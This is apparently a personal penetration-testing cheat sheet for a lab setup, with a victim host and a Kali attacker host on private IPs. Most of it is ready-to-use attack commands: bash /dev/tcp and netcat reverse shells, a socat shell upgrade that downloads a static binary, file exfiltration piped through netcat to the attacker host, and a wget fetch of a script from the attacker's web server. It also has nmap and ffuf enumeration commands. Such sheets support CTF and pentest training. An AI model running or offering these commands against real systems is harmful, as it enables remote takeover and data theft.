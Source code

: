 # CheatSheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://xrest.ru/schemes/00/11/be/62/%D0%9A%D0%BE%D1%82%D1%8D%20%D1%85%D0%B0%D0%BA%D0%B5%D1%80-1.jpg)

## Useful Commands

### Create web server

#### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

#### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

#### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

#### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

#### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

### Reverse shells

#### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

#### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

#### Listener

```
nc -lvp 4444
```

## Enumeration

#### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

#### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

#### FuFF

VHOST Discovery

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.10/ -H "Host:FUZZ.10.10.10.10"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
